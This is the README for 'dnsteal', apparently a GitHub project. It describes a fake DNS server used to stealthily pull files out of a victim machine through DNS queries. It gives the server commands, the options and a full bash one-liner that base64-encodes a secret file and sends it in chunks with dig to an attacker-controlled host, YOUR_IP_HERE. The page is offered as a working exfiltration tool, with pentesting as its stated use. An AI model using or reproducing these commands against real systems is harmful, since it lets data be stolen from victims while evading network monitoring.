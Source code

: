 # dnsteal v3.0

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests.

Below are a couple of different images showing examples of multiple file transfer and single verbose file transfer:

![Alt text](http://i.imgur.com/nJsoAMv.png)

* Support for multiple files
* Gzip compression supported
* Now supports the customisation of subdomains and bytes per subdomain and the length of filename

See help below:

![Alt text](http://i.imgur.com/GT5SV2L.png)

## Requirements

For all of these examples, you'll need:
- **Client machine**, with `bash` and `dig` installed (unless you tweak the client-side commands).
- **Server machine** with Python 3 installed, that you're able to open a
  port on. This is will be your fake DNS server.
  - Naturally using port 53 would be preferable, but you can use any port, which is
    particular useful if you don't have root privilegess, or plan on proxying
    to a different port.
- If you just want to test the tool out, the two machines can be on the same
  network. In a real pentesting engagement, you'll want the server to be
  accesible to the outside world with a public IP.

### Basic exfiltration example

#### Server
To start the fake DNS server, you can use the following command:

```bash
python dnsteal.py 0.0.0.0 53
```

If the port is below 1024, you'll need to the run the script as root or find another workaround.


#### Client

The `dnsteal.py` script will generate some example client-side commands that
you can run which utilize `dig` for the DNS exfiltration. **You should just use
what it gives you**, as it will customize the command based on your input.

That being said, a barebones command would look something like:

```bash
 f=SECRET_FILE.txt; s=4;b=57;c=0; for r in $(for i in $(base64 -b0 $f| sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig @YOUR_IP_HERE `echo -ne $r$f|tr "+" "*"` +short; done
```

### Detailed exfiltration example

If we were to run the script again, and populate some of the other arguments:
- `-z`: Zip the files before sending them over DNS
- `-v`: Enable verbose output
- `-s`: The number of nested subdomains to use per request
- `-b 123`: The number of bytes per subdomain
- `-f 123`: The maximum length of any given filename we may be exfiltrating

```bash
python dnsteal.py 127.0.0.1 53 -z -v -b 45 -s 4 -f 15
```
